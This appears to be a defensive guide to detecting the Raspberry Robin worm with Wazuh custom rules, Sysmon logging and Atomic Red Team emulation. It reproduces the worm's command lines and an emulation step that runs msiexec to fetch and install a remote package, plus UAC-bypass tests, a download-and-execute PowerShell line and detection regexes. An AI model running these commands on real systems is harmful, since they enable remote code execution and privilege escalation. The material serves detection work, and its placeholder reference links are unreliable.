 # Detecting Raspberry Robin Worm with Wazuh by redcanaryco

Raspberry Robin is an evasive Windows worm that spreads through removable drives. This guide demonstrates how to set up Wazuh for early-stage detection of Raspberry Robin based on its observed behaviors and known Indicators of Compromise (IoCs).

## Prerequisites
- A pre-built Wazuh OVA (4.3.9).
- An enrolled Wazuh agent (4.3.9) installed on a Windows 10 endpoint.
- Sysmon installed and configured.
- Atomic Red Team installed for emulation.

---

## Raspberry Robin Execution Chain

### Infection Stages
1. **Initial Access**
   - Spread via infected removable drives containing malicious `.lnk` shortcut files.
   - Updates UserAssist registry key with ROT13 encrypted value.

2. **Execution**
   - Executes malicious files stored on infected drives.
   - Example commands:
     ```
     cmd.exe /RCmD<szM.ciK
     cmd.exe /rcMD<[external disk name].Lvg
     ```

3. **Command and Control (C2) I**
   - Uses `msiexec.exe` to download malicious DLLs from compromised QNAP devices.
   - Example commands:
     ```
     msiexec /Q/I"http://W4[.]Wf[:]8080/..."
     ```

4. **Persistence**
   - Creates registry keys to inject DLLs using `rundll32.exe` and other Windows binaries.
   - Example commands:
     ```
     rundll32.exe SHELL32,ShellExec_RunDLLA ...
     ```

5. **Command and Control (C2) II**
   - Executes `rundll32.exe`, `dllhost.exe`, or `regsvr32.exe` to connect to TOR nodes.

---

## Endpoint Configuration

### Install Sysmon
1. Download Sysmon from the [Microsoft Sysinternals page](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download the [Sysmon XML configuration file](https://github.com/SwiftOnSecurity/sysmon-config).
3. Install Sysmon with the configuration:
   ```powershell
   Sysmon.exe -accepteula -i .\sysmonconfig.xml
   ```

### Configure Wazuh Agent to Collect Sysmon Events
1. Edit the `ossec.conf` file:
   ```xml
   <localfile>
     <location>Microsoft-Windows-Sysmon/Operational</location>
     <log_format>eventchannel</log_format>
   </localfile>
   ```
2. Restart the Wazuh agent service:
   ```powershell
   Restart-Service -Name wazuh
   ```

### Setup Atomic Red Team
1. Run the following commands:
   ```powershell
   Set-ExecutionPolicy RemoteSigned
   IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing);Install-AtomicRedTeam -getAtomics
   Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
   ```
2. Download prerequisites for techniques:
   ```powershell
   Invoke-AtomicTest T1059.003 -GetPrereqs
   Invoke-AtomicTest T1218.007 -GetPrereqs
   Invoke-AtomicTest T1218.008 -GetPrereqs
   Invoke-AtomicTest T1548.002 -GetPrereqs
   Invoke-AtomicTest T1218.011 -GetPrereqs
   ```

---

## Detection with Wazuh

### Custom Wazuh Rules
1. Edit `/var/ossec/etc/rules/local_rules.xml` to include the following rules:
   ```xml
   <group name="windows,sysmon,">
     <!-- Command Prompt reading and executing the contents of a file -->
     <rule id="100100" level="12">
       <if_sid>92004</if_sid>
       <field name="win.eventdata.image" type="pcre2">(?i)cmd\.exe$</field>
       <field name="win.eventdata.commandLine" type="pcre2">(?i)cmd\.exe.+((\/r)|(\/v\.+\/c)|(\/c)).*cmd</field>
       <description>Possible Raspberry Robin execution: Command Prompt reading and executing the contents of a CMD file on $(win.system.computer)</description>
       <mitre>
         <id>T1059.003</id>
       </mitre>
     </rule>

     <!-- msiexec.exe downloading and executing packages -->
     <rule id="100101" level="7">
       <if_sid>61603</if_sid>
       <field name="win.eventdata.image" type="pcre2">(?i)msiexec\.exe$</field>
       <field name="win.eventdata.commandLine" type="pcre2">(?i)msiexec.*(\/q|\-q|\/i|\-i).*(\/q|\-q|\/i|\-i).*http[s]{0,1}\:\/\/.+[.msi]{0,1}</field>
       <description>msiexec.exe downloading and executing packages on $(win.system.computer)</description>
       <mitre>
         <id>T1218.007</id>
       </mitre>
     </rule>

     <!-- Additional rules omitted for brevity -->
   </group>
   ```
2. Restart the Wazuh manager service:
   ```bash
   systemctl restart wazuh-manager
   ```

---

## Attack Emulation
1. **Command Prompt Execution**:
   ```bash
   cmd /r cmd<C:\AtomicRedTeam\atomics\T1059.003\src\t1059.003_cmd.cmd
   ```

2. **msiexec.exe Download**:
   ```bash
   msiexec /Q/I"http://W4.Wf:8080/GaJnUjc0Ht0/USER-PC?admin"
   ```

3. **DLL Execution**:
   ```powershell
   Invoke-AtomicTest T1218.008 -TestNumbers 1
   ```

4. **Bypass UAC**:
   ```powershell
   Invoke-AtomicTest T1548.002 -TestNumbers 3
   Invoke-AtomicTest T1548.002 -TestNumbers 4
   ```

5. **Network Connections**:
   ```powershell
   Invoke-AtomicTest T1218.011 -TestNumbers 1
   ```

---

## Conclusion
Using Wazuh, you can detect the presence of Raspberry Robin by monitoring tactics, techniques, and procedures (TTPs). By leveraging custom rules and Atomic Red Team emulations, you can ensure robust early-stage detection.

---

## References
- [Raspberry Robin gets the worm early](https://example.com)
- [Raspberry Robin: Highly Evasive Worm Spreads over External Disks](https://example.com)
- [New Evidence Links Raspberry Robin Malware to Dridex](https://example.com)

 - https://github.com/redcanaryco/atomic-red-team
